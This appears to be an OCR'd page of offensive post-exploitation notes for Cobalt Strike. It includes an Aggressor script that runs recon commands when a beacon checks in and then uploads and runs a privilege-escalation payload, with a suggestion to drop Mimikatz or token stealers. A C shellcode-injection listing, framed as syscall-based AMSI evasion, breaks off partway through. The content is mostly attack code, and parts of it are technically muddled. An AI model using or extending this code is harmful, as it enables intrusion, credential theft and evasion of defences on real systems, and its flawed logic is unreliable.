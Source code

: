 
---

1. Payload Automation & Generation (Aggressor Scripts)

Aggressor scripts let you automate actions when a beacon checks in. Here’s a script that:

Executes recon commands on initial beacon check-in.

Uploads a secondary payload for privilege escalation.


Aggressor Script: Automated Recon & Loader
```javascript
on beacon_initial {
    btask(`Running initial recon...`);
    beacon_command(`shell whoami`);
    beacon_command(`shell ipconfig`);
    beacon_command(`shell net user`);
    beacon_command(`shell arp -a`);
    
    // Upload additional payload if low-priv user
    beacon_command(`shell if exist C:\\Users echo "Low-Priv"; else echo "Admin";`);
    if ($1 contains "Low-Priv") {
        btask(`Uploading privesc payload...`);
        beacon_command(`upload elevate.exe`);
        beacon_command(`shell elevate.exe`);
    }
}
```
What it does:

Runs recon on first connection.

Uploads a privilege escalation payload if running as a low-priv user.

Can be modified to drop Mimikatz, token stealers, etc.




---

2. Robust Payload Execution (Best Success Rate)

No "fancy" payloads—just stealthy, robust, and battle-tested execution methods.

Windows: Process Injection (Syscalls + AMSI Bypass)

Instead of using default CreateRemoteThread(), we’ll use direct syscalls to avoid detection.
```C
Syscall-Based Process Injection

#include <windows.h>
#include <stdio.h>

int main() {
    void* exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // Shellcode (Meterpreter, Cobalt Strike, etc.)
    unsigned char payload[] = { 0xfc, 0xe8, 0x82, 0x00, ... };

    // Allocate memory for shellcode
    exec_mem = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Copy shellcode
    RtlMoveMemory(exec_mem, payload, sizeof(payload));

    // Make it executable
```